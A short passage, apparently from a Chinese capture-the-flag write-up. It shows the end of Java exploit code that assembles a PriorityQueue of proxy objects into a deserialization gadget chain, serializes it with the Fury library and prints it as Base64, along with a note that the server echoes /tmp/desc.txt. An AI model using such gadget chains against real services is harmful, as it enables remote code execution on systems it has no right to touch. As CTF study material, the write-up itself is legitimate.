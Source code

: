 ```java
        ObjectCreationFactory  test1 = (ObjectCreationFactory) Proxy.newProxyInstance(ObjectCreationFactory.class.getClassLoader(), new Class[]{ObjectCreationFactory.class}, mapProxy);


        PriorityQueue priorityQueue = new PriorityQueue(2, propertyComparator);
        ReflectUtil.setFieldValue(priorityQueue, "size", "2");
        Object[] objects = {test, test1};
        setFieldValue(priorityQueue, "queue", objects);

        byte[] serialize = fury.serialize(priorityQueue);
        System.out.println(Base64.getEncoder().encodeToString(serialize));

    }
}
```

题目不出网，Server默认回显/tmp/desc.txt的内容

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250228145847451.png)



## Espresso Coffee

尼玛，ROP我做个蛋啊。不做了
